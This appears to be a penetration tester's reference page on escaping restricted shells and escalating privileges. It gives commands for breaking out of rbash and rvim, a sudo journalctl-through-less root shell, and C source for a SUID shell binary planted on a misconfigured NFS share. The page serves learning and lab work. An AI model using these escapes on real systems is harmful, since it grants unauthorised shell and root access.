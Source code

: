 ```yaml
---
icon: arrow-up-left-from-circle
---
```


# Environment Escapes

{% hint style="info" %}
### <mark style="color:purple;">Escape</mark> <mark style="color:orange;">`rbash`</mark>

* <mark style="color:purple;">It's possible to do it directly connecting with</mark> <mark style="color:orange;">**`ssh`**</mark><mark style="color:purple;">:</mark>

```sh
ssh -i priv_key drno@10.10.10.124 -t bash
```

* <mark style="color:purple;">Or directly changing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

***

* <mark style="color:purple;">Is also possible by using</mark> <mark style="color:orange;">**`make`**</mark><mark style="color:purple;">. First sets a variable</mark> <mark style="color:orange;">**`COMMAND`**</mark> <mark style="color:purple;">with the value</mark> <mark style="color:orange;">**`/bin/bash`**</mark><mark style="color:purple;">**:**</mark>

```sh
 COMMAND='/bin/bash'
```

* <mark style="color:purple;">Then, execute</mark> <mark style="color:orange;">**`make`**</mark> <mark style="color:purple;">in silent mode (</mark><mark style="color:orange;">**`-s`**</mark><mark style="color:purple;">) and evaluates the string</mark> <mark style="color:orange;">**`x:`**</mark> <mark style="color:purple;">containing the shell:</mark>

```sh
make -s --eval=$'x:\n\t-'"$COMMAND"
```

* <mark style="color:purple;">Finish it up by fixing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`sudo journalctl`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`less`</mark>&#x20;

* <mark style="color:orange;">**`journalctrl`**</mark> <mark style="color:purple;">will output to stdout if it can fit onto the current page, but into</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">if it can’t.</mark>
* <mark style="color:purple;">When invoked with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">is possible to have code execution as</mark> <mark style="color:orange;">**`root`**</mark> <mark style="color:purple;">just by pressing</mark> <mark style="color:orange;">**`!`**</mark> <mark style="color:purple;">in the</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">environment.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Escaping via</mark> <mark style="color:orange;">`NFS UID/GID`</mark> <mark style="color:purple;">Manipulation</mark>

<mark style="color:red;">**`Prerequisites`**</mark><mark style="color:purple;">:</mark>

1. <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">server must allow arbitrary</mark> <mark style="color:orange;">**`UID/GID`**</mark> <mark style="color:purple;">mappings (</mark><mark style="color:orange;">**`no_root_squash`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`no_all_squash`**</mark><mark style="color:purple;">, or similar).</mark>
2. <mark style="color:purple;">Access to a writable directory on the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share.</mark>
3. <mark style="color:purple;">Ability to execute compiled binaries on the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share.</mark>&#x20;

<mark style="color:red;">**`Exploit`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setreuid(1000, 1000);
    setregid(1000, 1000);
    system("/bin/bash");
    return 0;
}
```
{% endcode %}

* <mark style="color:purple;">Compile the exploit:</mark>

```sh
gcc -static shell.c -o shell
```

* <mark style="color:purple;">Now just copy the binary to the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share with</mark>  <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`SGID`**</mark> <mark style="color:purple;">permissions</mark><mark style="color:purple;">**:**</mark>

```sh
chmod ug+s /mnt/shell
```

* <mark style="color:purple;">Finally just execute it to become the user with</mark> <mark style="color:orange;">**`1000`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Example" %}
```
/var/nfsshare/shell
```
{% endcode %}

* <mark style="color:purple;">This same technique could be used to escalate privilege to root by using</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`SGID`**</mark> <mark style="color:purple;">of 0 if the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share is configured with the</mark> <mark style="color:orange;">**`no_root_squash`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`no_all_squash`**</mark> <mark style="color:purple;">options.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Escape</mark> <mark style="color:orange;">`rvim`</mark>

* <mark style="color:purple;">Run</mark> <mark style="color:orange;">**`rvim`**</mark><mark style="color:purple;">:</mark>

{% code title="sudo hijack example" %}
```sh
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
```
{% endcode %}

* <mark style="color:purple;">And spawn the shell:</mark>

```
:py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
```
{% endhint %}

